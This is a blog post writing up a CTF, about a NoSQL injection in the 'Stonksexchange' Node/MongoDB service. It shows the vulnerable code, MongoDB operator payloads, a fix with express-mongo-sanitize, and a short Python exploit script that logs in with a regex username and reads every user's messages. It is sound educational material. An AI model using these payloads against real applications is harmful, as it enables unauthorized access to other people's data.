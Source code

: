 ```yaml
---
layout: post
title: "Report of the BambiCTF of ENOFLAG"
date: 2021-03-07 20:42:39 +0000
categories: [blog]
tags: [ctf]
---
```


This was my first CTF and I will try to explain a vulnerability I fixed and exploited. 

## Setup 

During the CTF I connected to the server with VSCode, which meant I had instant access to all files and could edit them without changing between multiple ssh windows with `nano` editors.

Also the extensions: 
 - [Docker](https://marketplace.visualstudio.com/items?itemName=ms-azuretools.vscode-docker):
   For always having an eye on your services, easy access to logs and one-click terminals to your containers. 
 - [REST Client](https://marketplace.visualstudio.com/items?itemName=humao.rest-client):
   For writing simple HTTP Requests in a file format. (see below)
 - [Python](https://marketplace.visualstudio.com/items?itemName=ms-python.python)
   For writing the exploit in a simple jupyter notebook. 

Allowed for a hassle free search for vulnerabilities

## Stonksexchange Vulnerability

[Here you can find the vulnerable service to try for yourself.](https://github.com/ldruschk/bambi-service-stonksexchange). 

The service is a simple node application which allows exchange of messages for registered/loggedin users: 

![image](https://user-images.githubusercontent.com/13590797/115123614-2d724c00-9fbe-11eb-8a9b-abe2db800a7d.png)

First I tried a simple XSS attack but was unsuccessful. Then it came to my mind that it might be some kind of injection attack as the service had a database.
After having a look at the files I noticed that user input was passed to the database without sanitizing it: 
```javascript
// /routes/index.js
router.post('/register', function (req, res, next) {
  if (!req.body.username || !req.body.password) {
    res.status(400).send('Missing username or password');
    return;
  }
  var db = req.app.locals.db;
  /*
   * Notice the findOne() function below which gets the data directly from the request body
   */
  db.collection('users').findOne({ 'username': req.body.username }).then(results => {
    if (results) {
      res.status(400).send('Username already in use');
      return;
    }
    argon2.hash(req.body.password).then(hash => {
      db.collection('users').insertOne({ 'username': req.body.username, 'password': hash }).then(results => {
        req.session.user = req.body.username;
        res.redirect('/');
      });
    });
  });
});
```

Trying the Endpoint directly confirms the suspicion. [MongoDB Operators](https://docs.mongodb.com/manual/reference/operator/query/) are directly executable.
```HTTP
# This Request always returns "Username already in use" because the query "{"$ne": null}" returns the first user 
# which names is not null (which is always the first user). 
POST http://localhost:8199/register HTTP/1.1
content-type: application/json

{
  "username": {"$ne": null},
  "password": "$#@Call4Code"
}
```

This holds true for multiple functions and googling the words [`mongodb` `findOne`, `vulnerability`](https://www.google.com/search?q=mongodb+findone+vulnerability) leads to possible NoSQL injections. 
So how to fix it? - [Stackoverflow is your friend](https://stackoverflow.com/questions/30585213/do-i-need-to-sanitize-user-input-before-inserting-in-mongodb-mongodbnode-js-co). 
I didn't use the package recommended there, but instead used [express-mongo-sanitize](https://www.npmjs.com/package/express-mongo-sanitize). Installing it and adding the following two lines fixed the problem. 

```javascript
// app.js

var createError = require('http-errors');
var express = require('express');
var path = require('path');
var cookieParser = require('cookie-parser');
var logger = require('morgan');
var session = require('express-session');
/**
  * Adding the following line to load the sanitizer
  */
const mongoSanitize = require('express-mongo-sanitize');
const MongoClient = require('mongodb').MongoClient;

// ...

app.use(logger('dev'));
app.use(express.json());
app.use(express.urlencoded({ extended: false }));
/**
  * Use the sanitizer.
  */
app.use(mongoSanitize());

app.use(cookieParser());
```

Trying the endpoints again leads to a new user `{"$ne": null}`. :)


## Stonksexchange Exploit

Now that we know that the endpoints `/register`, `/login` and `/messages` are vulnerable we have to look for the flags.
> Notice that you won't have any flags locally because there is no server putting them there! 

Looking into the database we can see messages with flags. But how to retrieve them?

![image](https://user-images.githubusercontent.com/13590797/115124821-952b9580-9fc4-11eb-8d4c-b5b1a75ed2ca.png)

Having a look at the `/messages` function we can see that `req.session.user` is used without sanitizing it, which means if we can put an Operator like `{$regex: "."}` there (which matches any character), we can retrieve the first 50 messages of the database. 
```javascript
router.get('/messages', function (req, res, next) {
  if (!req.session.user) {
    res.status(403).send('Not logged in');
    return;
  }
  var db = req.app.locals.db;
  /**
    * Notice that req.session.user is passed without sanitizing it
    */
  db.collection('messages').find({ 'username': req.session.user }, { 'sort': { '$natural': -1 } }).limit(50).toArray((err, results) => {
    if (err) {
      res.status(500).send('Internal server error');
      return;
    }
    res.locals.messages = results;
    res.render('messages', { title: 'Messages' });
  });
});
```

Because `user` is read from the `session` we have to "login" with the query we want to execute first. 

```javascript
router.post('/login', function (req, res) {
  if (!req.body.username || !req.body.password) {
    res.status(400).send('Missing username or password');
    return;
  }
  var db = req.app.locals.db;
  /**
    * The first user matching the username is returned, if the username is a query like {$regex: "."} we have to consider the sort function.
    */
  db.collection('users').findOne({ 'username': req.body.username }, { 'sort': { '$natural': -1 } }).then(results => {
    if (!results) {
      res.status(400).send('Invalid username or password');
      return;
    }
    argon2.verify(results.password, req.body.password).then(result => {
      if (!result) {
        res.status(400).send('Invalid username or password');
        return;
      }
      req.session.user = req.body.username;
      res.redirect('/');
    });
  });
});
```

Viewing the `/login` enpoint we can see that the first user matching the query will be returned. As we want the username to be `{$regex: "."}` we have to consider the ([natural](https://docs.mongodb.com/v4.2/reference/glossary/#term-natural-order)) sort order. 

![image](https://user-images.githubusercontent.com/13590797/115125463-7d561080-9fc8-11eb-84fe-eb8049f2791f.png)

In this case it will always be last created user. For a successful login we have to know the password. What better way to just creat one?

Lets put it together in a python script:

```python
import requests
base = "http://localhost:8199"

# Prepare the exploit by creating a user with a password we know
prepare = requests.Session()
register = prepare.post(base + '/register', json={ 'username': "0a", "password": "masterpass" })

# Create the exploit Session
exploit = requests.Session()
# Login with the query we want to execute
register = exploit.post(base + '/login', json={ 'username': {"$regex": "."}, "password": "masterpass" })
print(register.status_code)

# Get all messages
messages = exploit.get(base + "/messages")
print(messages)
```

> During the CTF new users where created from other people exploiting the service, which meant that in order to login with all matching regex a new user had to be created each time. 

